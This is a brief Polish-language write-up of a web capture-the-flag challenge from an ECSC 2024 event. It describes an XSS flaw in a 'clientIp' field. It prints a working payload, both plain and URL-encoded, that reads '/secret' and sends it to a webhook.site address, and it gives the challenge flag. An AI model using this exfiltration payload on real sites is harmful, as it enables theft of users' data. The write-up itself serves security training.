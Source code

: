 # S69 - web

### Vulnerability

XSS w polu `clientIp` na podstronie `/about`

### Solution 

Wysłać do sprawdzenia stronę z payloadem, który czyta `/secret` i wysyła go na nasz webhook.

```
payload = encodeURIComponent("\"><img src=x onerror=\"fetch(`/secret`).then(function(x){return x.text()}).then(function(x){fetch(`https://webhook.site/xxxxx?x=`+encodeURIComponent(x))})\" />")

https://s69.ecsc24.hack.cert.pl/save?email=asdf%40asdf.com&password=asdf&clientIp=%22%3E%3Cimg%20src%3Dx%20onerror%3D%22fetch(%60%2Fsecret%60).then(function(x)%7Breturn%20x.text()%7D).then(function(x)%7Bfetch(%60https%3A%2F%2Fwebhook.site%2Fxxxxx%3Fx%3D%60%2BencodeURIComponent(x))%7D)%22%20%2F%3E&fax=550000000
```

`ecsc24{gotta_have_an_xss_challenge_right?}`
